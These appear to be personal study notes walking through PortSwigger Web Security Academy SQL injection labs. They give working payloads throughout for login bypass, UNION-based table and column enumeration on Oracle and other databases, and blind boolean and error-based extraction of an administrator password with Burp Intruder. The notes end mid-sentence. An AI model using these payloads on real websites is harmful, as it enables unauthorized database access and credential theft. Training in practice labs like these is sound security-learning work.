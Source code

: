 ### sql injection

hint: internal server error on http route.  
 '+OR+1=1-- #will query all #SELECT \* FROM products WHERE catergory = '' or 1+1--' equivalent.
ex: https://0aa000d504428d79c0e803da00430076.web-security-academy.net/filter?category=%27+OR+1=1--

### SQL injection vulnerability allowing login bypass

Use burp suite to intercept and modify login.
modify username with parameter administrator'--

### SQL union injection

2 requirements:
How many columns are being returned from the original query?
Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

Continue adding null values until the error disappears and the response includes additional content containing the null values.  
ex: /filter?category='+UNION+SELECT+NULL,NULL-- HTTP/1.1  
-NULL is a special keyword that matches any data type.
-add NULLs if 'internal server error'
ex: '+UNION+SELECT+NULL,NULL,NULL--

### Lab: SQL injection UNION attack, finding a column containing text

Use Burp Suite to intercept and modify the request that sets the product category filter.
Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter:
'+UNION+SELECT+NULL,NULL,NULL--
Try replacing each null with the random value provided by the lab, for example:
'+UNION+SELECT+'abcdef',NULL,NULL--
If an error occurs, move on to the next null and try that instead.

### SQL injection UNION attack, retrieving data from other tables

Find number of columns using NULL  
'+UNION+SELECT+NULL,NULL--  
Check columns for string values  
'+UNION+SELECT+'string','string2'--
Replace strings to search for username and password on table users
'+UNION+SELECT+username,+password+FROM+users--
right click - show response in browser, open new tab, paste.
get administrator password, and paste into login.

### SQL injection UNION attack, retrieving multiple values in a single column

intercept category, move to repeater  
in repeater find column size  
'+UNION+SELECT+NULL,'string'--  
locate string for username/password injection  
concat username and password into string starr is used to seperate values so you can find easily  
'+UNION+SELECT+NULL,username||'\*'||password+FROM+users--  
right click response show response in browser  
grab administrator password and login

### Lab: SQL injection attack, querying the database type and version on Oracle

Hint: There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual
ex: '+UNION+SELECT+NULL,NULL+FROM+dual--
check for string data types
'+UNION+SELECT+'string','string2'+FROM+dual--
Now look for version by using BANNER, NULL, and v$version from cheatsheet.
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

Hint: You can find some useful payloads on our SQL injection cheat sheet.
for this instead of using '--' at the end, it will be a hash #  
ex: '+UNION+SELECT+NULL#
find number of columns and check for strings
'+UNION+SELECT+'string2','string1'#
for microsoft @@version  
ex:'+UNION+SELECT+@@version,NULL#

### SQL injection attack, listing the database contents on non-Oracle databases

Hint: You can find some useful payloads on our SQL injection cheat sheet.  
proxy -> intercept -> repeater  
Non-oracle -- -> NULL NULL enumerate until columns found, then string search.  
Grab name of tables we want username/passwords table_name keyword information_schema.tables keyword  
ex: '+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--  
Show response in browser -> ctrl+f 'users' save user custom name
search column_name and information.schema.columns Where table_name= usercustomName
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_zleagd'--
find name of username column and password column -> ex: password_ozeovi username_oiwhns
Then make UNION select with username, password, FROM, usertable
ex: '+UNION+SELECT+username_oiwhns,password_ozeovi+FROM+users_zleagd--
grab username/password for administrator
Login from Myaccount

### SQL injection attack, listing the database contents on Oracle

proxy-intercept-repeater - ORACLE (+FROM+dual) instead of --
enumerate nulls for columns '+UNION+SELECT+NULL,NULL+FROM+dual--
test strings - both are strings
Grab name of tables we want username/passwords table_name keyword all_tables keyword for ORACLE
ex: '+UNION+SELECT+table_name,NULL+FROM+all_tables--
get users table info - USERS_ICXPNX
search column_name and ORACLE: all_tab_columns using our username table to filter via WHERE clause
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ICXPNX'--
Then make UNION select with username, password, FROM, usertable
PASSWORD_TYRFNT
USERNAME_AIPDKN
'+UNION+SELECT+USERNAME_AIPDKN,PASSWORD_TYRFNT+FROM+USERS_ICXPNX--
Log in using administrator and password.

# BLIND SQL INJECTIONS

### Lab: Blind SQL injection with conditional responses

Hint: You can assume that the password only contains lowercase, alphanumeric characters.  
intercept, reload, repeater, see Cookie: tracking-ID=  
use booleans EX: Cookie: TrackingId=AfmV0i55jXUHch34' AND '1'='1;  
search for 'Welcome back' string shows that it's injectable  
if boolean is a false and doesn't give 500 error, it shows it's injectable.  
intercept -> repeater -> send to intruder  
intruder -> clear positions -> trackingId position, figure out length of password.  
ex: TrackingId=skE2Uot3KwnNY4m0' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a;  
highlight '1' click add in intruder  
ex:' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a; session=80ZmlNFRn852B56JEPNfCP8hWIoUQcZX  
payload -> type -> numbers -> from 1 to 30(super secure) step = 1.  
options tab -> grep match -> clear -> add "Welcome" we know logged in users see "Welcome back!"  
ex: TrackingId=skE2Uot3KwnNY4m0' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a;  
intruder -> clusterbomb(two payloads)  
TrackingId=skE2Uot3KwnNY4m0' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a;  
select payloads  
Cookie: TrackingId=skE2Uot3KwnNY4m0' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§;  
payload 1 -> numbers 1-20(we know PW is 20 long from prior step) step 1  
payload 2 -> simple list ->payload options -> add a-z and 0-9  
Start attack, wait for 30 minutes, order results  
pw: i0tky7lpg6kfrvw0o0vf

### Blind SQL injection with conditional errors

Cookie: TrackingId=4KuVlET3kPLQfehN'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||';  
server Error  
change 1=2 ex: '||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||';  
send to intruder, clear  
get error back to find PW length ex: '||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'  
select 1 and 'add' for payload ex: LENGTH(password)>§1§  
payload - numbers 1-30 step 1  
options are default  
Start attack, look for 500 status response = error response for me 19 errors 20 char long pw

now iterate over 20 chars to find out which char for all 20.  
intruder similar to last time.  
ex: '||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';  
add a and first 1, ex: Cookie: TrackingId=4KuVlET3kPLQfehN'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';  
Cluster bomb attack (two payloads)
payload 1 numbers 1-20 step 1, payload 2 a-z 0-9
look for any 500s and we'll get the password from internal server error. 500 = valid character
pw for me is:
